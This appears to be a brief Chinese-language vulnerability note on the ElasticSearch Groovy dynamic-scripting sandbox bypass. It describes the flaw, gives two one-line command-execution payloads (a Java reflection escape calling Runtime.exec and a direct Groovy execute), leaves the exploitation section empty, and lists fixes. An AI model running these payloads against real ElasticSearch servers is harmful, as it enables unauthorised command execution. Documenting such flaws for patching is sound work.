

# 一 漏洞描述
ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本,但由于沙盒代码黑名单中的Java危险方法不全,导致可以绕过沙盒来执行命令。

命令执行的方法有两种:

1.java沙盒绕过

java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

2.Goovy直接执行命令

def command='id';def res=command.execute().text;res

### 二 漏洞利用

### 三 漏洞修复
1.关闭groovy沙盒以停止动态脚本的使用

2.升级elasticsearch版本
